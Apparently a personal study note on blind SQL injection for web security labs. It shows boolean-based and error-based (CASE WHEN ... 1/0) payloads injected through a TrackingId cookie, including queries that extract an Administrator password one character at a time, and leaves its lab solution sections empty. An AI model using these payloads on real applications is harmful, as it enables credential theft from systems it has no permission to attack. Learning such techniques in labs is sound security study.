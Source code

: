 Cookie : TrackingId=u5YD3PapBcR4lN3e7Tj4hd46' AND '1'='1

Cookie : TrackingId=u5YD3PapBcR4lN3e7Tj4hd46' AND '1'='2

here in first query both conditions are TRUE so we will get "welcome back" (example) message. where as in second query 2nd condition will be FALSE so message won't be displayed. it allow us to determine answer to any single injected condition, extract data one bit at a time.

Suppose, there is a table called 'Users' with columns 'Username' and 'Password', and a user called *Administrator.* we can determine password of this user by sending series of inputs for test one character at a time.

Start with :

suppose password's first character is greater than 'm' then it will print message.

Next try :

Cookie : TrackingId=u5YD3PapBcR4lN3e7Tj4hd46' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1)>'t

suppose that character is not greater than 't'. so it won't print message.

Next try : confirm character if you got by condition.

Cookie : TrackingId=u5YD3PapBcR4lN3e7Tj4hd46' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1) = 's

continue this process to determine full password. (Boring Process) try tool ;) 

- LAB Solution :
    
    add solution from kali's vs-code notes
    

---

**Inducing conditional responses by triggering SQL errors**

suppose, as we seen above query was returning 'Welcome Back!' message, but what if no difference is shown after making query?

 Solution, we can make application return error by injection boolean condition. this will cause error if query will be TRUE & if it will be FALSE so there will be no change. we can do reverse also depending on how we give condition.

suppose 2 query will be sent as shown below...

1 ) `SELECT tracking-id FROM track-table where TrackingId='xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'`

2 ) `SELECT tracking-id FROM track-table where TrackingId='xyz' AND (SELECT CASE WHEN (1=0) THEN 1/0 ELSE 'a' END)='a'`

in first query both are true so as our condition, error will be generated, but not in 2nd one due to divided by 1/0. we can use this to retrieve data by, character by character :

`SELECT tracking-id FROM track-table where TrackingId='xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

- LAB Solution :
    